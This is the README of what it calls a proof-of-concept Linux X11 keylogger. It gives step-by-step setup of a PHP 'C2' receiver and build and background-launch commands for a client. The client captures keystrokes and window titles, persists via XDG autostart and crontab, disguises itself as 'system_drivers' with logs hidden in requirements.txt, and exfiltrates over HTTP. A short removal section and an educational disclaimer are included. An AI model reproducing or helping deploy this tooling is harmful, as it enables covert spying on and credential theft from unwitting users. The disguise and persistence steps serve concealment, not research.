

# 🐧 Linux X11 Keystroke Logger & Exfiltration Framework

> A lightweight Proof-of-Concept (PoC) security research tool for Linux environments running the X11 windowing system, demonstrating keystroke capture, window context tracking, persistence mechanisms, and remote data exfiltration over HTTP.

[-orange?style=for-the-badge&logo=linux&logoColor=white)](https://www.x.org/)
[](https://en.wikipedia.org/wiki/C_(programming_language))
[](https://curl.se/libcurl/)
[](https://www.php.net/)
[](https://en.wikipedia.org/wiki/Penetration_test)

---

> [!CAUTION]
> **Educational & Research Disclaimer**:
> This repository is intended strictly for educational, security auditing, and authorized red-team assessment purposes. Unauthorized monitoring, data interception, or deployment on devices without explicit prior authorization is strictly prohibited and illegal under computer fraud and cybercrime legislation.

---

## 🏗️ Architecture & Flow



---

## ✨ Key Features & Capabilities

- **🖥️ X11 Window Context Tracking**: Hooks into the X11 display using `XGetInputFocus` and `XFetchName` to log window title changes, providing critical context for captured input (e.g., distinguishing web browser sessions from terminal windows).
- **⌨️ Raw Keycode Mapping**: Queries the low-level keyboard matrix via `XQueryKeymap`, mapping keycodes to human-readable strings and key symbols using `XKeysymToString`.
- **🔄 System Persistence Mechanisms**:
  - **XDG Autostart**: Generates `~/.config/autostart/system_drivers.desktop` to launch alongside user desktop sessions.
  - **Crontab `@reboot`**: Installs an entry into the user's crontab for reboot survivability.
- ** disguise Local Storage**: Stores local buffered keystrokes inside `~/Documents/requirements.txt` to blend in with normal developer workspaces.
- **🌐 HTTP Exfiltration**: Dispatches periodic multi-part HTTP POST payloads to a designated endpoint using `libcurl`.
- **📥 PHP Telemetry Receiver**: Ingests payloads, categorizes logs by source IP, username, and timestamp, and writes them to a protected log directory.

---

## 📁 Repository Structure

```
keylogger-linux/
├── main.c           # Core C client implementation (X11 event hooks, persistence, curl)
├── keylogger.sh     # Automation script for GCC verification, compilation & background run
├── receiver.php     # Server-side endpoint for receiving and archiving exfiltrated data
└── README.md        # Technical documentation & usage guide
```

---

## 🛠️ Requirements & Dependencies

### Client (Target Machine)
- Linux environment running **X11** (X.Org Display Server)
- GCC compiler
- `libX11` development headers
- `libcurl` development headers

#### Debian / Ubuntu / Mint:
```bash
sudo apt update && sudo apt install -y build-essential libx11-dev libcurl4-openssl-dev
```

#### Arch Linux / Manjaro:
```bash
sudo pacman -S --needed gcc make libx11 curl
```

### Server (C2 / Receiver)
- PHP 7.4+ or 8.x
- Any web server (Apache, Nginx, LiteSpeed, Caddy)

---

## 🚀 Setup & Deployment

### 1. Configure the Receiver Server
1. Upload `receiver.php` to your web server document root (e.g., `https://your-domain.com/receiver.php`).
2. Ensure write permissions exist for the logs directory:
   ```bash
   mkdir -p logs
   chmod 775 logs
   ```

### 2. Configure the Client
Open `main.c` and specify your receiver's domain name or IP address:

```c
#define SERVER "your-domain.com"     // Receiver DNS record or IP (without http:// or https://)
#define SCRIPT_PATH "/receiver.php"  // Remote receiver endpoint path
#define UPLOAD_INTERVAL 300          // Exfiltration interval in seconds (default: 5 min)
```

### 3. Build & Execution

#### Option A: Automated Build Script (`keylogger.sh`)
```bash
chmod +x keylogger.sh
./keylogger.sh
```

#### Option B: Manual Compilation
```bash
gcc -o system_drivers main.c -lcurl -lX11 -Wall -Wno-stringop-truncation -Wno-format-truncation
nohup ./system_drivers >/dev/null 2>&1 &
```

---

## 🧹 Detection & Remediation

To terminate the process and purge persistent entries created by the client:

```bash
# 1. Terminate running process
pkill -f system_drivers

# 2. Remove desktop autostart entry
rm -f ~/.config/autostart/system_drivers.desktop

# 3. Clean crontab entry
crontab -l | grep -v 'system_drivers' | crontab -

# 4. Remove binary and local log buffer
rm -f ~/system_drivers ~/Documents/requirements.txt
```

---

## 📄 License

This repository is distributed under the MIT License for educational and research usage.
